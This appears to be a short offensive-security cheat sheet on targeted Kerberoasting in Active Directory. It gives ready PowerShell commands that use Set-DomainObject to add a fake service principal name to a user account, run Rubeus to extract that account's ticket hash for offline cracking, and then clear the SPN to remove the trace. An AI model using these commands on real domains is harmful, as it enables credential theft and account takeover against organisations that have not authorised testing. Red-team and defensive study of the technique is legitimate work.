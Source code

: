 ```yaml
---
description: >-
  If we have a lot of rights over user, we could make it vulnerable to
  Kerberoasting by MAKING her a service account so we can steal and crack hash.
  So Create SPN -> Steal&Crack Hash -> Delete SPN.
---
```


# Targeted Kerberoasting

## <mark style="color:yellow;">Creating Fake SPN's</mark>

```powershell
PS C:\> Set-DomainObject -Credential $Cred -Identity rmyers -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

## <mark style="color:yellow;">Kerberoasting via Rubeus</mark>

Rubeus is only as example, obviously you can use whatever you want.&#x20;

```powershell
PS C:\> .\Rubeus.exe kerberoast /user:rmyers /nowrap
```

## <mark style="color:yellow;">**Removing the Fake SPN**</mark>

```powershell
PS C:\> Set-DomainObject -Credential $Cred -Identity rmyers -Clear serviceprincipalname -Verbose
```
